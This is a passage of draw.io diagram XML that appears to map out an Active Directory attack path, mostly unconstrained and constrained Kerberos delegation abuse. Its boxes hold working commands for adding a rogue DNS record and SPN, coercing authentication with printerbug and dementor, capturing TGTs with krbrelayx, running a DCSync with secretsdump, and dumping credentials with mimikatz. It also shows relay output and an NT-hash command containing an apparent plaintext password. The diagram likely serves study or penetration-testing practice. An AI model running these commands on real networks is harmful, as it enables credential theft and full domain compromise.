        <mxCell id="VL_DeuJodb9uclPqMyuw-14" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#FF0000;" parent="1" source="VL_DeuJodb9uclPqMyuw-8" target="VL_DeuJodb9uclPqMyuw-13" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-8" value="&lt;div&gt;Create fake DNS record&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="1940" y="3760" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-10" value="&lt;div&gt;Create a Fake DNS Record&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="2030" y="3881" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-11" value="&lt;div&gt;kali$ git clone -q https://github.com/dirkjanm/krbrelayx; cd krbrelayx&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;kali$ python dnstool.py -u &amp;lt;fqdn&amp;gt;\\&amp;lt;user&amp;gt;-p &amp;lt;password&amp;gt; -r &amp;lt;roguecmputer&amp;gt;.&amp;lt;fqdn&amp;gt; -d &amp;lt;local-ip&amp;gt; --action add &amp;lt;dc-ip&amp;gt;&amp;nbsp; &amp;nbsp;&amp;nbsp;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="2030" y="3941" width="390" height="119" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-17" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-13" target="VL_DeuJodb9uclPqMyuw-15" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-19" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#FF0000;" parent="1" source="VL_DeuJodb9uclPqMyuw-13" target="VL_DeuJodb9uclPqMyuw-18" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="3080" y="3790" />
              <mxPoint x="3080" y="4360" />
              <mxPoint x="2230" y="4360" />
              <mxPoint x="2230" y="4530" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-13" value="&lt;div&gt;Verify&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="2570" y="3760" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-15" value="&lt;div&gt;Verify DNS&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="2650" y="3881" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-16" value="&lt;div&gt;&lt;div&gt;kali$ nslookup &amp;lt;computer&amp;gt;.&amp;lt;fqdn&amp;gt; &amp;lt;dc&amp;gt;.&amp;lt;fqdn&amp;gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="2650" y="3941" width="390" height="59" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-22" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-18" target="VL_DeuJodb9uclPqMyuw-20" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-24" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#FF0000;" parent="1" source="VL_DeuJodb9uclPqMyuw-18" target="VL_DeuJodb9uclPqMyuw-23" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-18" value="&lt;div&gt;Craft SPN on target user&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="2293" y="4500" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-20" value="&lt;div&gt;impacket&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="2398" y="4620" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-21" value="&lt;div&gt;kali$ python addspn.py -u &amp;lt;fqdn&amp;gt;\\&amp;lt;user&amp;gt; -p &amp;lt;pass&amp;gt; --target-type samname -t &amp;lt;target-to-impersonate&amp;gt; -s &amp;lt;service&amp;gt;/&amp;lt;computer&amp;gt;.&amp;lt;fqdn&amp;gt; &amp;lt;dc&amp;gt;.&amp;lt;fqdn&amp;gt;&amp;nbsp;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="2398" y="4680" width="390" height="69" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-30" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#FF0000;" parent="1" source="VL_DeuJodb9uclPqMyuw-23" target="VL_DeuJodb9uclPqMyuw-29" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-23" value="&lt;div&gt;Coerce&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="2953" y="4500" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-28" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-25" target="VL_DeuJodb9uclPqMyuw-26" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-25" value="&lt;div&gt;Any account trying to authenticate via SMB to the rogue computer will have a copy of its TGT in its requested TGS ticket. We can use the PrinterBug tool to coerce another computer into authenticating against our fake host. But before that, we need to look for the TGS ticket and TGT on our attacking host using krbrelayx.py. We provide this tool with the compromised account&#39;s secret key (NT hash) to decrypt the received TGS ticket.&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="2953" y="4560" width="390" height="150" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-41" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.75;entryDx=0;entryDy=0;strokeColor=#FF0000;" parent="1" source="VL_DeuJodb9uclPqMyuw-26" target="VL_DeuJodb9uclPqMyuw-38" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="3680" y="4810" />
              <mxPoint x="3680" y="5150" />
              <mxPoint x="4280" y="5150" />
              <mxPoint x="4280" y="4545" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-26" value="&lt;div&gt;Using Krbrelayx&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="3223" y="4780" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-27" value="&lt;div&gt;&lt;div&gt;kali$ sudo python krbrelayx.py -hashes :&amp;lt;nt-hash&amp;gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="3223" y="4840" width="390" height="69" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-34" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-29" target="VL_DeuJodb9uclPqMyuw-32" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-37" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-29" target="VL_DeuJodb9uclPqMyuw-35" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-39" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#FF0000;" parent="1" source="VL_DeuJodb9uclPqMyuw-29" target="VL_DeuJodb9uclPqMyuw-38" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-29" value="&lt;div&gt;Leveraging the Printer Bug&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="3683" y="4500" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-32" value="&lt;div&gt;printerbug.py&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="3773" y="4630" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-33" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;kali$ python3 printerbug.py &amp;lt;fqdn&amp;gt;/&amp;lt;user&amp;gt;:&amp;lt;pass&amp;gt;@&amp;lt;ip&amp;gt; &amp;lt;host&amp;gt;.&amp;lt;fqdn&amp;gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="3773" y="4690" width="390" height="69" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-35" value="&lt;div&gt;dementor.py&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="3773" y="4790" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-36" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;div&gt;kali$ python dementor.py -u &amp;lt;user&amp;gt; -p &amp;lt;pass&amp;gt; -d &amp;lt;fqdn&amp;gt; &amp;lt;host&amp;gt;.&amp;lt;fqdn&amp;gt; &amp;lt;tgthost&amp;gt;.&amp;lt;fqdn&amp;gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="3773" y="4850" width="390" height="69" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-45" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#FF0000;" parent="1" source="VL_DeuJodb9uclPqMyuw-38" target="VL_DeuJodb9uclPqMyuw-44" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-38" value="&lt;div&gt;Krbrelayx performing the Attack&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="4403" y="4500" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-31" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="VL_DeuJodb9uclPqMyuw-40" target="VL_DeuJodb9uclPqMyuw-51">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-40" value="&lt;div&gt;&lt;div&gt;&lt;b&gt;Keep running&lt;/b&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="3223" y="4909" width="390" height="31" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-42" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;i&gt;[*] Protocol Client SMB loaded..&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[*] Protocol Client LDAPS loaded..&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[*] Protocol Client LDAP loaded..&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[*] Running in export mode (all tickets will be saved to disk)&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[*] Setting up SMB Server&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[*] Setting up HTTP Server&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;&lt;br&gt;&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[*] Servers started, waiting for connections&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[*] SMBD: Received connection from &amp;lt;IP&amp;gt;&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[*] Got ticket for &amp;lt;target&amp;gt;@&amp;lt;fqdn&amp;gt; [&amp;lt;user&amp;gt;@&amp;lt;fqdn&amp;gt;]&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[*] Saving ticket in&amp;nbsp;&lt;/i&gt;&lt;i&gt;&amp;lt;target&amp;gt;@&amp;lt;fqdn&amp;gt;&lt;/i&gt;&lt;i&gt;_&lt;/i&gt;&lt;i&gt;&amp;lt;user&amp;gt;@&amp;lt;fqdn&amp;gt;&lt;/i&gt;&lt;i&gt;.ccache&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[*] SMBD: Received connection from &amp;lt;IP&amp;gt;&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[-] Unsupported MechType &#39;NTLMSSP - Microsoft NTLM Security Support Provider&#39;&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[*] SMBD: Received connection from &amp;lt;IP&amp;gt;&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;[-] Unsupported MechType &#39;NTLMSSP - Microsoft NTLM Security Support Provider&#39;&lt;/i&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="4403" y="4561" width="530" height="279" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-48" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-44" target="VL_DeuJodb9uclPqMyuw-46" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-55" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#FF0000;" parent="1" source="VL_DeuJodb9uclPqMyuw-44" target="VL_DeuJodb9uclPqMyuw-54" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-90" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.25;exitDx=0;exitDy=0;entryX=1;entryY=0;entryDx=0;entryDy=0;strokeColor=#FF8000;jumpStyle=arc;" edge="1" parent="1" source="VL_DeuJodb9uclPqMyuw-44" target="-mCO11fVwZeK89IVwwup-83">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="5263" y="4515" />
              <mxPoint x="5263" y="2880" />
              <mxPoint x="250" y="2880" />
              <mxPoint x="250" y="340" />
              <mxPoint x="200" y="340" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-91" value="kbrtgt hash?" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="-mCO11fVwZeK89IVwwup-90">
          <mxGeometry x="-0.984" y="1" relative="1" as="geometry">
            <mxPoint y="1" as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-44" value="&lt;div&gt;DCSync attack&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="5123" y="4500" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-46" value="&lt;div&gt;Impacket&amp;nbsp;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="5213" y="4610" width="560" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-47" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;div&gt;kali$ export KRB5CCNAME=&amp;lt;ccache-file&amp;gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;kali$ secretsdump.py -k -no-pass &amp;lt;target&amp;gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="5213" y="4670" width="560" height="100" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-49" value="&lt;div&gt;&lt;b&gt;Note: Use the command unset KRB5CCNAME to unset the value of the environment variable KRB5CCNAME&lt;/b&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="5213" y="4770" width="560" height="50" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-50" value="&lt;b&gt;NOTE: remember to add DC to hosts file&lt;/b&gt;" style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="1330" y="3820" width="280" height="21" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-51" value="&lt;div&gt;to get hash on kali&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="3223" y="4990" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-52" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;iconv -f ASCII -t UTF-16LE &amp;lt;(printf &quot;C@lluMDIXON&quot;) | openssl dgst -md4&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="3223" y="5050" width="390" height="69" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-54" value="&lt;div&gt;Using retrieved hashes&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="5843" y="4501" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-56" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;div&gt;See impacket man pages&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="5843" y="4560" width="220" height="20" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-87" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;" parent="1" source="VL_DeuJodb9uclPqMyuw-57" target="VL_DeuJodb9uclPqMyuw-61" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-57" value="CONSTRAINED" style="whiteSpace=wrap;html=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="-862" y="3083" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-64" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="VL_DeuJodb9uclPqMyuw-61" target="VL_DeuJodb9uclPqMyuw-63" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-61" value="with Protocol transition" style="whiteSpace=wrap;html=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="-1262" y="3083" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-67" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-63" target="VL_DeuJodb9uclPqMyuw-65" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-69" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="1" source="VL_DeuJodb9uclPqMyuw-63" target="VL_DeuJodb9uclPqMyuw-68" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-90" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-63" target="VL_DeuJodb9uclPqMyuw-88" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-63" value="Enumeration" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="-1102" y="3220" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-65" value="&lt;div&gt;Powerview&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="-872" y="3250" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-66" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;div&gt;PS C:\Tools&amp;gt; Import-Module .\PowerView.ps1&lt;/div&gt;&lt;div&gt;PS C:\Tools&amp;gt; Get-DomainComputer -TrustedToAuth&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="-872" y="3310" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-68" value="Requesting Valid TGS ticket" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="-1102" y="3628" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-70" value="&lt;div&gt;Mimikatz&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="-782" y="3803" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-76" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-71" target="VL_DeuJodb9uclPqMyuw-73" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-71" value="&lt;div&gt;PS C:\Tools&amp;gt; .\mimikatz.exe privilege::debug sekurlsa::msv exit&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="-782" y="3863" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-75" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-72" target="VL_DeuJodb9uclPqMyuw-70" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-78" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="1" source="VL_DeuJodb9uclPqMyuw-72" target="VL_DeuJodb9uclPqMyuw-77" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-94" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.75;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-72" target="VL_DeuJodb9uclPqMyuw-92" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="-366" y="3728" />
              <mxPoint x="-366" y="3845" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-72" value="&lt;div&gt;We can use Rubeus to ask for a valid TGS ticket from an arbitrary user to access the service on the host. To successfully perform this attack, we will need to obtain the NTLM password hash of the machine account. We can obtain this using Mimikatz.&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="-1102" y="3688" width="390" height="80" as="geometry" />
        </mxCell>
